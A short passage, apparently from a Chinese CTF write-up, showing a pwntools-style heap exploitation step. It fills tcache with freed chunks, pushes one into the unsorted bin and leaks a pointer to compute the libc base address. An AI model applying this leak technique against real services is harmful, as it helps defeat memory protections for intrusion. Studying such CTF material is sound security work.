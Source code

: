 [![](assets/1708654729-95291fc4c77048d9dce129efafbeaad7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221104112-acebe3ec-d062-1.png)

```bash
for i in range(9):
    add(i,0x80,'aaaa')

for i in range(8):
    delete(7-i)

show(0)
libc_base=u64(p.recvuntil('\x7f').ljust(8,'\x00'))-0x1ecbe0
leak('libc_base ',libc_base)
```

先链入 unsorted bin 里面，泄露 libc
